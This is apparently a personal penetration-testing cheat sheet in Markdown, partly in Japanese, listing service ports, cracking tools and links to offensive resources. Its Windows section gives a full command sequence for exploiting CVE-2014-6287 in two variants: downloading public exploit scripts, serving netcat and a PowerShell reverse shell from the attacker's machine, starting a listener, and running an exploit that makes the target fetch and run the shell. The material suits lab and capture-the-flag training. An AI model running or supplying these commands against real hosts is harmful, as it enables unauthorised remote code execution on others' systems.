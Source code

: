 # CheatSheet

## Ports
- 20, 21 / FTP
- 22 / SSH
- 23 / Telnet
- 25 / SMTP
- 53 / DNS
- 80 / HTTP
- 110 / POP3
- 443 / HTTPS
- 139, 445 / SMB
- NFS / 2049
- MySQL / 3306

## Tools
### [Nmap](nmap.md)

### [MSFVenom](msfvenom.md)

### [Gobuster](gobuster.md)

### [Hydra](hydra.md)

### [John the Ripper](john.md)


### [Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes)
```
hashcat -m [HASH TYPE] -a [ATTACK MODE] [HASHFILE PATH] [WORDLIST PATH]
```

#### Hashid
```
hashid -m [HASH]
```


## Exploit by protocol
- [SSH](ssh.md)
- [SMB](smb.md)
- [Telnet](telnet.md)
- [NFS](nfs.md)
- [FTP](ftp.md)
- [SMTP](smtp.md)
- [MySQL](mysql.md)

## Windows

### CVE : 2014-6287 ([39161](https://www.exploit-db.com/exploits/39161))
You can execute arbitrary commands on the remote Windows host.

Download the python script to kali
```
wget https://www.exploit-db.com/raw/39161 -O /tmp/39161.py
```

Download netcat binary file.  
39161.pyではあらかじめローカルIP、ポートを指定する必要あり。指定したアドレスから、netcatの実行可能ファイルをnc.exeという名前でダウンロードする仕様。そして、ダウンロードしたnc.exeを実行し、そのローカルIP、ポートにコネクトバックする（リバースシェル）
```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe -O ~/Downloads/steel/nc.exe
```

Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

The following command needs to be executed TWICE.
Download nc.exe first, and connects back to the listner on Kali second time. 
```
python 39161.py $rhost [RPORT]
```

### CVE : 2014-6287 ([49125](https://www.exploit-db.com/exploits/49125))
You can execute arbitrary commands on the remote Windows host.

Download the python script to kali
```
wget https://www.exploit-db.com/raw/49125 -O /tmp/49125.py
```

Download the powershell script to kali.
Local IP and port in the script needs to be changed.
```
wget https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1 -O ~/Downloads/steel/mini-reverse.ps1
```

Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

Execute the script. Execute the commands passed as the third argument.
```
cd /tmp
python3 49125.py $rhost [RPORT] "C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -c wget 'http://${lhost}/mini-reverse.ps1' -outfile 'C:\Users\Bill\Desktop\mini-reverse.ps1'; C:\Users\Bill\Desktop\mini-reverse.ps1" 
```

## Memo
*1 python3で実行した場合、エラーが発生する。

## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

GTFOBins  
https://gtfobins.github.io/

Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/
